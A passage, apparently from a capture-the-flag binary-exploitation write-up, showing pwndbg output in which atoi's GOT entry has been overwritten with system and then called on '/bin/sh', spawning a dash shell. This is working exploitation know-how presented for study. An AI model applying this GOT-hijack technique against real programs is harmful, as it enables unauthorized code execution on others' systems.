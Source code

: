 to

```
[0x55b455771038] atoi@GLIBC_2.2.5 -> 0x7f1a5c1b7490 (system) ◂— test rdi, rdi
```

And right after `atoi` is called:

```
► 0x55b45576e1e0 <get_num+39>        call   atoi@plt                    <atoi@plt>
        nptr: 0x7fff2ae1e010 ◂— 0x68732f6e69622f /* '/bin/sh' */
```

WE GET THE SHELL!!!

```
pwndbg> ni
[Attaching after process 961807 vfork to child process 962407]
[New inferior 2 (process 962407)]
warning: Expected absolute pathname for libpthread in the inferior, but got ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
[Detaching vfork parent process 961807 after child exec]
[Inferior 1 (process 961807) detached]
process 962407 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 2: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 3: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
[Attaching after Thread 0x7fb4c9fed740 (LWP 962407) vfork to child process 962416]
[New inferior 3 (process 962416)]
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
[Detaching vfork parent process 962407 after child exec]
[Inferior 2 (process 962407) detached]
process 962416 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 2: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 3: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "edit_level" in current context.
```